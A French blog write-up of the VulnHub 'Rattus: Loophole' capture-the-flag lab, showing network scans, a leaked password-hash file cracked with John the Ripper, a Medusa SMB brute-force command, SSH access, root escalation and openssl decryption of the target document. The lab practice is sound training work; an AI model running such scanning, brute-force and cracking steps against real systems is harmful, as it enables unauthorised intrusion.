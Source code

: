 ```yaml
---
title: "Solution du CTF Rattus: Loophole de VulnHub"
tags: [CTF, VulnHub]
---
```


Ce message s'autodétruira dans 5, 4, 3, 2, 1
--------------------------------------------

Le CTF [Loophole](http://vulnhub.com/entry/rattus_loophole,27/) propose de s'introduire sur un système sur fond de mission anti-terrorisme :  

> We suspect that someone inside Rattus labs is working with known terrorist group. Your mission is to infiltrate into their computer network and obtain encrypted document from one of their servers.
> Our inside source has told us that the document is saved under the name of Private.doc.enc and is encrypted using OpenSSL encryption utility. Obtain the document and decrypt it to complete the mission.

La première difficulté de ce challenge (les mauvaises langues diront la seule), c'est de parvenir à configurer la VM car l'ISO fournit n'utilise pas DHCP et a une adresse IP statique en 10.8.7.  

Finalement il faudra seulement aller dans *Fichier > Paramètres > Réseau* dans *VirtualBox* et créer un réseau privé hôte qui reprends ces infos (j'ai mis .4 et ça a marché mais dans la logique il faut sans mettre .0 si c'est pour le réseau) :  

![Congiguration VirtualBox](/assets/img/vboxnet0.png)

Après on peut lancer Nmap pour trouver l'adresse de notre future victime :  

```
nmap -e vboxnet0 -sP 10.8.7.0/29 -T4
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 09:34 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00017s latency).
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Nmap done: 8 IP addresses (1 host up) scanned in 16.75 seconds
```

On pointe directement notre navigateur dessus et on trouve le site web de *Rattus Labs* qui contient différents contacts :  

![Rattus Labs](/assets/img/rattus.png)

Nadia Vlad, CEO.  

Sr. system administrator : Tom Skies - tskies@rattus.lab  

Network engineer : Jay Summer- jsummer@rattus.lab  

Mark Hog - mhog@rattus.lab  

Il y a aussi une page *phpinfo* publiquement accessible. La configuration est plutôt laxiste, permet l'inclusion distante par exemple. Le serveur web tourne en nobody.  

Il y a un sacré nombre de modules PHP mais on verra plus tard que cette info n'est d'aucune utilité.  

On lance un *dirb* sur le serveur *Apache* (1.3.31 avec PHP/4.4.4) :  

```
> ./dirb http://10.8.7.2/ wordlists/big.txt 

-----------------
DIRB v2.21
By The Dark Raver
-----------------

START_TIME: Sat Apr  5 13:43:18 2014
URL_BASE: http://10.8.7.2/
WORDLIST_FILES: wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://10.8.7.2/ ----
==> DIRECTORY: http://10.8.7.2/Images/
+ http://10.8.7.2/cgi-bin/ (CODE:403|SIZE:274)
+ http://10.8.7.2/garbage (CODE:200|SIZE:288)
+ http://10.8.7.2/index (CODE:200|SIZE:3001)
+ http://10.8.7.2/info (CODE:200|SIZE:37650)
+ http://10.8.7.2/status (CODE:200|SIZE:2456)
+ http://10.8.7.2/~operator (CODE:403|SIZE:275)
+ http://10.8.7.2/~root (CODE:403|SIZE:271)

---- Entering directory: http://10.8.7.2/Images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
DOWNLOADED: 20458 - FOUND: 7
```

Surprise quand on regarde le fichier *garbage* :  

```
root:$1$x2YBL0KB$E7QI7AF9ZeiqcfMRQ4KZ11:15018:0:::::
smmsp:!!:9797:0:::::
mysql:!!:9797:0:::::
rpc:!!:9797:0:::::
sshd:!!:9797:0:::::
apache:!!:9797:0:::::
nobody:!!:9797:0:::::
mhog:$1$ZQAbXwf3$TgcNjljKW.2tlJw4OICDr1:15019:0:::::0
tskies:$1$ZvNtdn0x$ck5hnAwXg.OLQPOtg28Hb.:15019:0:::::0
```

On lance *John The Ripper* qui retourne illico un premier mot de passe :  

```
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 AVX intrinsics 12x])
mhog             (mhog)
```

On laisse *JTR* tourner puis on passe à autre chose voir si on trouve autre chose d'intéressant. *Metasploit* a deux modules en rapport avec *mod\_negotiation* mais ils se révèlent sans intérêt dans notre cas.  

On lance un scan Nmap de la cible (quand même) :  

```
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 13:26 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00012s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.4 (protocol 1.99)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.31 ((Unix) PHP/4.4.4)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| http-methods: Potentially risky methods: PUT DELETE CONNECT PATCH PROPFIND PROPPATCH MKCOL COPY MOVE LOCK UNLOCK TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Loophole - Rattus labs
113/tcp open  ident?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: LOOPHOLE, NetBIOS user: , NetBIOS MAC: 
| smb-security-mode: 
| Account that was used for smb scripts: guest
| User-level authentication
| Plaintext passwords required (dangerous)
|\_ Message signing supported
|\_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE
HOP RTT ADDRESS
1 0.12 ms 10.8.7.2
```

*Metasploit* dispose de plusieurs exploits Samba mais ils sont trop vieux ou inefficaces par rapport au système.  

Est-ce qu'on peut faire quelque chose avec l'accès au Samba ?  

```
> nmblookup -A 10.8.7.2
Looking up status of 10.8.7.2
        LOOPHOLE        <00> -         B 
 LOOPHOLE <03> - B 
 LOOPHOLE <20> - B 
 ..\_\_MSBROWSE\_\_. <01> -  B 
 WORKGROUP <1d> - B 
 WORKGROUP <1e> -  B 
 WORKGROUP <00> -  B 

 MAC Address = 00-00-00-00-00-00

> smbclient -L LOOPHOLE -N
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]
tree connect failed: NT\_STATUS\_INSUFFICIENT\_RESOURCES

> smbclient -L LOOPHOLE -U mhog%mhog
Server requested PLAINTEXT password but 'client plaintext auth = no' or 'client ntlmv2 auth = yes'
session setup failed: NT\_STATUS\_ACCESS\_DENIED
```

On rajoute quelques lignes dans la section global de notre *smb.conf* :  

```
client lanman auth = Yes
client plaintext auth = Yes
client ntlmv2 auth = No
```

Le changement est pas vraiment mieux :  

```
> smbclient -L LOOPHOLE -U mhog%mhog
session setup failed: NT_STATUS_LOGON_FAILURE
```

*Medusa* a un module SMB, on tente d'obtenir un accès (par exemple sur le compte *operator* trouvé par *dirb*) :  

```
medusa -h 10.8.7.2 -u operator -P john/wordlists/password.lst -M smbnt
```

Toujours bredouille :( On revient à nos moutons et on tente une connexion en SSH avec le compte *mhog* : et bingo ça passe !  

![ssh access as mhog](/assets/img/rattus2.png)

Cliffhanger Linux
-----------------

Comme d'habitude on fouille dans les processus, permissions sur les fichiers et binaires, configuration des services... rien d'intéressant.  

On teste quelques exploits pour le kernel mais aucun n'aboutit. Au passage on est sur un live-CD *Slax* donc /tmp n'est pas writable (comme la plupart du FS). Ça oblige à travailler dans */dev/shm* et définir la variable d'environnement *TMPDIR* à ce répertoire pour gcc.  

On revient sur *JTR* que l'on stoppe et que l'on relance avec [une wordlist béton](http://d4n3ws.polux-hosting.com/2014/02/26/mega-wordlist/).  

Cette fois les pass restants tombent en 8 minutes :  

```
albatros         (root)
nostradamus      (tskies)
```

On passe root via su et on trouve le ficier *Private.doc.enc* dans le home de l'utilisateur *tskies*.  

On retrouve la commande de chiffrement dans son *.bash\_history* :  

```
openssl enc -aes-256-cbc -e -in Private.doc -out Private.doc.enc -pass pass:nostradamus
```

Le déchiffrement est aisé :  

```
openssl enc -aes-256-cbc -d -in Private.doc.enc -out Private.doc -pass pass:nostradamus
```

On ouvre ça avec *LibreOffice* :  

![Document confidentiel](/assets/img/rattus3.png)

Et un de plus !

*Published April 05 2014 at 17:23*
